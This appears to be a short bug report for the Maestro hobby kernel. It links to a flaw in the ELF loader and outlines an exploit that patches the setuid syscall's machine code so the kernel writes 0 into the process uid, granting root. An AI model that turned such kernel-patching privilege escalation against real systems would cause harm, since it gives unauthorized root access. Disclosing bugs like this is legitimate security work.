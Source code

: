 BUG: https://github.com/llenotre/maestro/blob/a26b77a4e46984f17919c2a337665a7fbf6527a9/src/process/exec/elf.rs#L705

Exploit:

At function `kernel::syscall::setuid::setuid::h1bc937266fb4cdc1`,

it checks `self->euid` at:
```x86asm
.text:C025E672                 movsx edx, word ptr [edi+0x40]
.text:C025E676                 test    dx, dx
```

so I could guess that `self->uid` is at [edi+0x3c]

try to change the instruction to ( `edx` is equals to 0 when the kernel jumps to this):

```x86asm
.text:C025E672                 nop
.text:C025E673                 mov     [edi+3Ch], edx
.text:C025E676                 test    dx, dx
```
